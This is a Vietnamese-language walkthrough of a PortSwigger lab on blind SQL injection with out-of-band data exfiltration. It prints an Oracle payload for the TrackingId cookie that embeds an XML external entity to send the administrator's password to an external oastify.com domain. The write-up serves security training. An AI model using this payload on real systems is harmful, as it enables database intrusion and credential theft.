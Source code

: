 ![image](images/lab-16/lab-16-1.png)

## Lab 17: [Blind SQL injection with out-of-band data exfiltration](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration)

> This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.
>
> The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.
>
> The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.
>
> To solve the lab, log in as the `administrator` user.

Bài lab yêu cầu chúng ta đăng nhập vào ứng dụng với user là `administrator`.

Trước tiên, để lấy được password, chúng ta có thể đổi giá trị của cookie `TrackingId` thành payload bên dưới, chú ý domain sẽ khác.

```sql
' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.mlb6ctchdthwxdxq1bfjzuwlvc16pwdl.oastify.com/"> %remote;]>'),'/l') FROM dual--
```

![image](images/lab-17/lab-17.png)
